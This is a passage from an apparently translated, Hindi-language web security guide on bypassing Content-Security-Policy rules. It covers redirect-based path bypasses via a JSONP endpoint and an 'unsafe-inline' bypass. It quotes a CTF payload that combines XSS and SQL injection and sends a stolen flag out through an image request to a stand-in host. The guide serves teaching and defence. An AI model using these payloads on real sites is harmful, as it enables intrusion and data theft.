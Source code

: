 यहां एक उदाहरण है:
```html
<!DOCTYPE html>
<html>
<head>
<meta http-equiv="Content-Security-Policy" content="script-src http://localhost:5555 https://www.google.com/a/b/c/d">
</head>
<body>
<div id=userContent>
<script src="https://https://www.google.com/test"></script>
<script src="https://https://www.google.com/a/test"></script>
<script src="http://localhost:5555/301"></script>
</div>
</body>
</html>
```
यदि CSP को `https://www.google.com/a/b/c/d` पर सेट किया गया है, तो चूंकि पथ पर विचार किया जाता है, दोनों `/test` और `/a/test` स्क्रिप्ट CSP द्वारा अवरुद्ध कर दिए जाएंगे।

हालांकि, अंतिम `http://localhost:5555/301` को **सर्वर-साइड पर `https://www.google.com/complete/search?client=chrome&q=123&jsonp=alert(1)//`** पर **रीडायरेक्ट किया जाएगा**। चूंकि यह एक रीडायरेक्शन है, **पथ पर विचार नहीं किया जाता**, और **स्क्रिप्ट लोड की जा सकती है**, इस प्रकार पथ प्रतिबंध को बायपास किया जा सकता है।

इस रीडायरेक्शन के साथ, भले ही पथ को पूरी तरह से निर्दिष्ट किया गया हो, यह अभी भी बायपास किया जाएगा।

इसलिए, सबसे अच्छा समाधान यह सुनिश्चित करना है कि वेबसाइट में कोई ओपन रीडायरेक्ट कमजोरियाँ न हों और CSP नियमों में कोई ऐसे डोमेन न हों जिन्हें शोषित किया जा सके।

### लटकते मार्कअप के साथ CSP बायपास

[यहाँ पढ़ें](../dangling-markup-html-scriptless-injection/)।

### 'unsafe-inline'; img-src \*; XSS के माध्यम से
```
default-src 'self' 'unsafe-inline'; img-src *;
```
`'unsafe-inline'` का मतलब है कि आप कोड के अंदर कोई भी स्क्रिप्ट चला सकते हैं (XSS कोड चला सकता है) और `img-src *` का मतलब है कि आप वेबपेज पर किसी भी संसाधन से कोई भी छवि का उपयोग कर सकते हैं।

आप इस CSP को छवियों के माध्यम से डेटा निकालकर बायपास कर सकते हैं (इस अवसर पर XSS एक CSRF का दुरुपयोग करता है जहां एक पृष्ठ जो बॉट द्वारा सुलभ है, एक SQLi है, और एक छवि के माध्यम से ध्वज निकालता है):
```javascript
<script>fetch('http://x-oracle-v0.nn9ed.ka0labs.org/admin/search/x%27%20union%20select%20flag%20from%20challenge%23').then(_=>_.text()).then(_=>new Image().src='http://PLAYER_SERVER/?'+_)</script>
```
From: [https://github.com/ka0labs/ctf-writeups/tree/master/2019/nn9ed/x-oracle](https://github.com/ka0labs/ctf-writeups/tree/master/2019/nn9ed/x-oracle)

आप इस कॉन्फ़िगरेशन का दुरुपयोग करके **एक छवि के अंदर डाले गए जावास्क्रिप्ट कोड को लोड** कर सकते हैं। यदि उदाहरण के लिए, पृष्ठ ट्विटर से छवियों को लोड करने की अनुमति देता है। आप **एक विशेष छवि तैयार** कर सकते हैं, **उसे ट्विटर पर अपलोड** कर सकते हैं और "**unsafe-inline**" का दुरुपयोग करके **एक JS कोड को निष्पादित** कर सकते हैं (जैसे एक सामान्य XSS) जो **छवि को लोड** करेगा, **उससे JS निकाल**ेगा और **इसे निष्पादित** करेगा: [https://www.secjuice.com/hiding-javascript-in-png-csp-bypass/](https://www.secjuice.com/hiding-javascript-in-png-csp-bypass/)
